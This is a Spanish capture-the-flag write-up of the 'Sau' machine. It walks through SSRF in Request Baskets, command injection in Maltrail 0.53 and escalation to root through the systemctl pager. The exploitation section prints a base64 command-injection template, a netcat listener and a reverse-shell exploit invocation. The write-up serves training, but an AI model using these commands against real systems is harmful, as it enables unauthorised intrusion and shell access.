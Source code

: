 ```yaml
---
title: Sau
---
```

<link rel="stylesheet" href="../../../../../styles/tooltip.css">

![sau](../../../../../assets/sau.png)

En esta máquina nos encontramos con un [SSRF](# "Server-Side Request Forgery: Es una vulnerabilidad de seguridad que permite a un atacante manipular un servidor para que realice solicitudes no deseadas a recursos internos o externos."), el cual nos lleva a un log que usa **Maltrail**, vulnerable a RCE. La escalada de privilegios fue sencilla, jugando con el size. Pese a que usamos solo Pocs tambien analizaremos por que suceden y como funcionan por detras :)

## Enumeración

Hacemos nuestra enumeración con **nmap** como de costumbre, esto nos listará solo dos puertos: el 22 (SSH) y el 55555 ([Request Baskets](# "Servicio que genera un endpoint temporal para recibir y visualizar solicitudes HTTP, usado para probar y depurar webhooks o integraciones.")).  
Aplicando scripts básicos no me reporta absolutamente nada. Entendiendo lo que es un Request Baskets, no intenté enumerar subdominios ni rutas comunes.

![nmap](../../../../../assets/sau/nmap.png)

## Reconocimiento

Investigando un poco la página, me doy cuenta de que en el *footer* aparece la versión del Request Baskets desactualizada (1.2.1). Buscando vulnerabilidades encontré el [CVE-2023-27163](# "Esta vulnerabilidad permite a los atacantes acceder a recursos de red e información confidencial a través de una solicitud API diseñada específicamente.").  
Para probarlo intenté ver si cargaba alguna página mía.

- Creo un archivo _index.html_ con cualquier contenido: **_Esto es una prueba :)_**
- Montamos nuestro servidor con Python en el puerto 80:

```
python3 -m http.server 80
```

- Y en la configuración del basket ponemos en el **Forward URL** el nuestro. Veremos si hay actividad o carga nuestra página. 

![test](../../../../../assets/sau/test.png)

- Efectivamente carga nuestra página.

![prueba](../../../../../assets/sau/prueba.png)

- Ahora que sabemos que es vulnerable a [SSRF](# "Server-Side Request Forgery: Es una vulnerabilidad de seguridad que permite a un atacante manipular un servidor para que realice solicitudes no deseadas a recursos internos o externos."), intentamos listar algunos puertos comunes. En este caso el 80. Esto nos redirigirá a una pantalla de carga de [Maltrail](# "Sistema de código abierto para la detección de tráfico de red malicioso que utiliza listas de rastros sospechosos (dominios, IPs, URLs) de fuentes públicas, informes de antivirus y listas personalizadas para identificar y alertar sobre posibles amenazas como malware o intrusiones.").

![ssrf](../../../../../assets/sau/ssrf.png)

## Explotación

Dentro de la pantalla de log de [Maltrail](# "Sistema de código abierto para la detección de tráfico de red malicioso que utiliza listas de rastros sospechosos (dominios, IPs, URLs) de fuentes públicas, informes de antivirus y listas personalizadas para identificar y alertar sobre posibles amenazas como malware o intrusiones.") vemos que está filtrada la versión **0.53**.  
Encontramos un POC para la [CVE-2023–27163](https://github.com/spookier/Maltrail-v0.53-Exploit). Me pareció muy interesante cómo desde una pantalla de log se podía lograr un [RCE](# "Remote Code Execution").  

Este [artículo en Medium](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5) explica que Maltrail no valida correctamente la entrada, lo que permite inyectar código encodeado en base64:

```bash
; bash -c 'echo <payload_base64> | base64 -d | sh' ;
```

![medium](../../../../../assets/sau/medium.png)

###### Para ejecutar el POC.

- Te pones en escucha con nc 

```
nc -nlvp port
```
- Editas bien tu POC y obtendrás tu reverse shell.
```
python3 exploit.py <VPN-IP> <PORT> http://URL/test
```

Ganaremos acceso como el usuario puma, y obtendremos la primera flag.

### Escalando privilegios

Esta escalada de privilegios fue muy sencilla, me recordó a un nivel de [OverTheWire](https://overthewire.org/wargames/) en el que se jugaba con el tamaño de la terminal, permitiendo ejecutar un comando (en este caso `systemctl`) y entrar en modo paginador.

- Saneamos nuestra terminal para poder ejecutar comandos con tranquilidad.
- Hacemos sudo -l 

```
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
<span style="font-size:12px">_Podemos usar el comando **_sudo /usr/bin/systemctl status trail.service_** sin validar la contraseña_</span>

![root](../../../../../assets/sau/root.png)

#### Reflexión 

Esta máquina me gustó bastante. El jugar con el login usándolo como punto vulnerable fue lo que más me sorprendió. La escalada de privilegios fue sencilla, pero en general una buena máquina.

# FIN
